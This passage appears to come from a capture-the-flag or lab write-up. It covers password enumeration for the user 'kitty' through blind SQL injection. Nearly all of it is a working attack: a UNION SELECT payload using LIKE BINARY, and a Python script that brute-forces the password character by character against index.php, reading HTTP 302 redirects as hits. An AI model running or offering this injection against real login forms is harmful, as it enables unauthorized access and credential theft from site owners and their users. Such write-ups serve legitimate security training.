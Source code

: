 ## Password enumeration <a href="#adc0" id="adc0"></a>

We already know the username “kitty,” so let’s go straight to the password.

**Statement**

```
' UNION SELECT 1,2,3,4 FROM siteusers WHERE username=\"kitty\" AND password LIKE BINARY 'a%';-- -
```

**script.py**

```
import sys
import requests

def sqli(ip):
    symbols = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-/:$^ '
    tmp = ""

    while True:
        for i in symbols:
            post= {"username":f"' UNION SELECT 1,2,3,4 FROM siteusers WHERE username=\"kitty\" AND password LIKE BINARY '{tmp+i}%' -- -","password":"doesntmatter"} #u can change this for other prposes
            req = requests.post(f"http://{ip}/index.php", data=post,allow_redirects=False) #address can also be chnaged 
            status_code=req.status_code
            print(f"{i}", end='\r')
            if status_code == 302:
                tmp += i
                print(tmp)
                break
            elif i == " " :
                print("\n[#] Attack complete:")
                print(f"Password:: {tmp}")
                exit()


def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <ip>" % sys.argv[0])
        print("(+) Example: %s 192.168.0.1" % sys.argv[0])
        return
    url = sys.argv[1]
    print("(+) Retrieving database..")
    sqli(url)

if __name__ == "__main__":
    main()

```
